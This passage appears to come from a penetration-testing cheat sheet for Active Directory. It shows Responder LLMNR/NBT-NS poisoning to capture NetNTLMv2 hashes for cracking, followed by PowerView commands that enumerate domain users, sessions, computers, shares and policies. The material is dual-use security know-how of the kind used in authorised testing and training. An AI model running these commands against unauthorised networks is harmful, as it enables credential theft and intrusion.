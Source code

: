 ##### Responder
In an internal network you can abuse old protocol (like NBT-NS or LLMNR) and grab NetNTLMv2 hashes. You can then try to crack them with john or hashcat.
```
# As root
./Responder.py -I eth0 -wrb
```
### Post Auth

#### Domain Info

##### Powerview
Get Current Domain:
```
Get-NetDomain
```
Enum Other Domains:
```
Get-NetDomain -Domain <domain_name>
```
Get Domain SID:
```
Get-DomainSID
```
Get Domain Policy:
```
Get-DomainPolicy
```
Get Domain Controlers:
```
Get-NetDomainController
Get-NetDomainController -Domain <domain_name>
```
Enumerate Domain Users:
```
Get-NetUser
Get-NetUser -SamAccountName <user> 
Get-NetUser | select cn

# Enumerate user logged on a machine
Get-NetLoggedon
Get-NetLoggedon -ComputerName <computer_name>

# Enumerate Session Information for a machine
Get-NetSession
```
Enum Domain Computers:
```
Get-NetComputer -FullData
Get-DomainGroup

# Enumerate Live machines 
Get-NetComputer -Ping
```
Enumerate Shares:
```
# Enumerate Domain Shares
Find-DomainShare

# Enumerate Domain Shares the current user has access
Find-DomainShare -CheckShareAccess
```
Enum Group Policies:
```
Get-NetGPO

# Shows active Policy on specified machine
```